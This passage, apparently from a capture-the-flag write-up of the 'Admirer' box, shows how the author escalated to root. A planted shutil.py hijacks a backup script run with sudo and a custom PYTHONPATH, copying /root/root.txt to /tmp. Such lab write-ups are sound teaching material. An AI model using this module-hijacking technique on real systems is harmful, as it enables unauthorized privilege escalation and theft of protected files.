     from shutil import make_archive

    src = '/var/www/html/'

    # old ftp directory, not used anymore
    #dst = '/srv/ftp/html'

    dst = '/var/backups/html'

    make_archive(dst, 'gztar', src)

As we can export our environmental variable to `sudo`, we can rewrote the
`shutil` module to execute the code we want. We wrote a specific `shutil.py` script:

        :::text
        def make_archive(a,b,c):
            print('ok')
            with open('/root/root.txt') as f:
                with open('/tmp/plop/flag.txt', 'w') as g:
                    g.write(f.read())

And run the web backup with specifying our `PYTHONPATH` environment variable.

    :::text
    waldo@admirer:/tmp/plop$ sudo PYTHONPATH=/tmp/plop /opt/scripts/admin_tasks.sh 6
    Running backup script in the background, it might take a while...
    waldo@admirer:/tmp/plop$ ok
    cat flag.txt
    6bd44137e00395497fefe44684913599

# Wrapping up

The box was a combination of simple techniques. As the exposed surface was
really small (FTP, SSH and HTTP) there was not a lot of rabbit hole during
exploration. I am a bit mad that the "exploit" for adminer was not in
`searchsploit` as I lost some time before putting the search into Google.

The root part was quit simple if you know already know the issue.

